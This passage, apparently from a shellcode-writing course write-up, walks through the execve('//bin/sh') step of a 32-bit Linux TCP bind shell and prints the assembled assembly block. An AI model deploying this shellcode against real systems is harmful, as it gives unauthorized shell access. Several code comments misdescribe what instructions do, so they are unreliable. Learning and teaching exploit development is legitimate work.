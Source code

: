 The EBX register will be used to carry the pointer location of the '//bin/sh' entity, which points EBC to the stack:

```nasm
	mov ebx, esp	; move pointer to '//bin/sh' into ebx, null terminated
```
Null out the EAX register by pushing the value of '0' onto the stack, then move the pointer to '//bin/sh' from EAX into EDX (Null terminated):

```nasm
	push eax        ; terminator placed onto the stack with value of 0
        mov edx, eax    ; move pointer to '//bin/sh' into edx, null terminated
```

ECX should point to the location of EBX, push EBX onto the stack and then move ESP into ECX:

```nasm
	push ebx        ; push 0 onto the stack
        mov ecx, esp    ; move pointer to '//bin/sh' into ecx, null terminated
```

The execve syscall code can be found in the header file below, converting 11 from decimal to hex equals 0xb:

```bash
osboxes@osboxes:~/Downloads/SLAE$ cat /usr/include/i386-linux-gnu/asm/unistd_32.h | grep execve
#define __NR_execve 11
```

The value of 0xb is placed into the lower memory region of EAX.

Finally, the execve syscall and the program interrupt are called to execute the program, and initiate the full TCP bind shell on the target machine:

```nasm
	mov al, 0xb     ; move syscall code for execve into al
        int 0x80        ; call the interrupt to execute execve syscall, execute '//bin/sh' shell
```

6th syscall (Assembly code section):

```nasm
	; 6th syscall - execute /bin/sh using execve
        xor eax, eax	; clear eax register
	push eax        ; terminator placed onto the stack with value of 0
        push 0x68732f6e ; push the end of "//bin/sh", 'hs/n'
        push 0x69622f2f ; push the beginning of "//bin/sh", 'ib//'
        mov ebx, esp    ; move pointer to '//bin/sh' into ebx, null terminated
        push eax        ; terminator placed onto the stack with value of 0
        mov edx, eax    ; move pointer to '//bin/sh' into edx, null terminated
        push ebx        ; push 0 onto the stack
        mov ecx, esp    ; move pointer to '//bin/sh' into ecx, null terminated
	mov al, 0xb     ; move syscall code for execve into al
        int 0x80        ; call the interrupt to execute execve syscall, execute '//bin/sh' shell
```

#### Assembly Code (Final)
-------------
